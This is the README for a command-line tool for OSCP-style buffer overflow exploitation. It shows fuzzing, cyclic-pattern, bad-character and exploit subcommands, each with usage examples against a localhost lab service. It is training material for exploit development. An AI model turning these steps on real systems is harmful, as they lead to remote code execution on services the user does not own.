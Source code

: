 # Overflow
A command-line tool for exploiting OSCP-like buffer overflows.

## 1. Installation
```sh
$ git clone https://github.com/sradley/overflow.git
$ cd overflow
$ cabal update
$ cabal install
```

## 2. Usage
The help menu is pretty exhaustive, if you're stuck you should give it a look.

```sh
$ overflow --help
...
```
```sh
$ overflow <subcommand> --help
...
```

### 2.1. Fuzzing
You can use this tool to discover the length of the target buffer.

The fuzz subcommand will send increasingly long (size specified by the step
parameter) bytestrings comprised of As (0x41). When the server stops responding
the fuzzer assumes that it has reached a buffer overflow and reports the
possible length of the buffer.

```
$ overflow fuzz 127.0.0.1 4444 -S 100
    ───> Sending 100-byte payload to target...
    ───> Sending 200-byte payload to target...
    ───> Sending 300-byte payload to target...
    ───> Sending 400-byte payload to target...
    ───> Sending 500-byte payload to target...
Done! Length of buffer is in the range (400, 500].
```

### 2.2. Sending a Cyclic Pattern
You can use this tool to send a cyclic pattern of bytes to the server. Great
for discovering offsets of particular registers.

The pattern subcommand will generate and send a specified length cyclic pattern
of bytes to the target server, however, figuring out the offset to the EIP
register (for example) is up to you. 

```
$ overflow pattern 127.0.0.1 4444 -l 80
    ───> Sending 80-byte cyclic pattern to target.
Success! Finished sending pattern to target
```

```
$ nc -lvp 4444
Connection from 127.0.0.1:48870
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
```

### 2.3. Finding Bad Characters
You can use this tool to send every character from 0x00 to 0xFF to the target
service. It's only real use is to discover bad characters (e.g. characters that
the service treats differently in execution).

The badchars subcommand will generate and send a bytestring consisting of every
possible character to the target service. However, determining which characters
are bad is up to you.

```
$ overflow badchars 127.0.0.1 4444 -o 160
    ───> Sending characters to target.
Done! Finished sending characters to target.
```

You can also exclude particular characters from the payload sent to the target.
For example, say you wanted to exclude the characters '00', '05' and '1A'.

```
$ overflow badchars 127.0.0.1 4444 -o 160 -e "00,05,1a"
    ───> Sending characters to target.
Done! Finished sending characters to target.
```

### 2.4. Running an Exploit
```sh
$ overflow exploit --help
```
```
Usage: overflow exploit HOST PORT (-o|--offset OFFSET) (-a|--address ADDRESS)
                        (-p|--payload PAYLOAD) [-p|--prefix PREFIX] 
                        [-s|--suffix SUFFIX]
  Attempts to execute a specified payload on target

Available options:
  HOST                     Target machine's IP address
  PORT                     Port the target service is running on
  -o,--offset OFFSET       The offset of the EIP register
  -a,--address ADDRESS     Jump address for executing shellcode
  -p,--payload PAYLOAD     Payload to be executed on target
  -p,--prefix PREFIX       (optional) Prefix to put before payload
  -s,--suffix SUFFIX       (optional) Suffix to put after payload
  -h,--help                Show this help text
```
